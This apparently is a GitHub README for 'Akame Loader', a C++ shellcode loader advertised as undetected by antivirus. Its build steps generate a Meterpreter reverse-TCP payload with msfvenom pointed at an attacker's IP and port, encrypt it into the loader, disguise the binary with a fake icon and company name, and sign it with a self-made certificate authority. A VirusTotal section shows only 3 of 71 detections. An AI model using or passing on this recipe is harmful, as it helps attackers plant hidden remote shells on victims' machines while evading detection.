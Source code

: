 <h1 align="center">Akame Loader</h1>
<p align="center">
  <img width="250" height="250" src="https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/akame.png" width="250" height="250">
</p>
<h4 align="center">An open source, UD shellcode loader written in C++17</h4>

## Details

## Build instructions
**1. Generate a shellcode with metasploit<br>**
- msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shellcode.bin

**2. Encrypt your shellcode with encrypt.exe<br>**
- mv shellcode.bin \Akame Loader\x64\Release\Resources\ <br>
- cd \Akame Loader\x64\Release\Resources\ <br>
- (optional) encrypt --help<br>
- encrypt.exe -l cpp -m shellcode.bin -e random -o cli<br>

**3. Copy the output and paste it under the "payload" comment<br>**
- Paste your IV key, your KEY and your BUFF into the existent vectors<br>

**4. Change the resources<br>**
- Add your icon, your company name, etc.

**5. Build the project<br>**
- Language standard: ISO C++17<br>
- Configuration: Release<br>
- Platform: x64<br>
- Runtime Library: Multi-Threaded (/MT)<br>
- SubSystem: Windows<br>
- Dependencies: user32.lib;advapi32.lib;crypt32.lib;

**6. Add a certificate to your executable<br>**
  ! Change "Akame.exe" to whatever your executable name is<br>
- move Akame.exe Resources && cd Resources<br>
- makecert.exe -r -pe -n "CN=Akame CA" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv AkameCA.pvk AkameCA.cer<br>
- certutil -user -addstore Root AkameCA.cer<br>
- makecert.exe -pe -n "CN=Akame Cert" -a sha256 -cy end -sky signature -ic AkameCA.cer -iv AkameCA.pvk -sv AkameCert.pvk AkameCert.cer<br>
- pvk2pfx.exe -pvk AkameCert.pvk -spc AkameCert.cer -pfx AkameCert.pfx<br>
- signtool.exe sign /v /f AkameCert.pfx /t http://timestamp.digicert.com/?alg=sha1 Akame.exe<br>

## VirusTotal Scan (3/71 security vendors and no sandboxes)
I uploaded the loader to Virus Total because I don't want this to be used for malicious purposes!<br>
The shellcode used was generated with metasploit (payload: windows/x64/meterpreter/reverse_tcp) and encrypted by \resources\encrypt.exe.<br>
The loader was build with VS22 and signed with a sha1 certificate

![Virus Total](https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/virustotal.png)

Link: https://www.virustotal.com/gui/file/68e6a25457093584a043ed3f721be9bc9b6456edd792cb4e30054e85bdc4119f?nocache=1

## License
MIT License

Copyright (c) 2022 WtfIsThis

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

## Disclaimer
This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
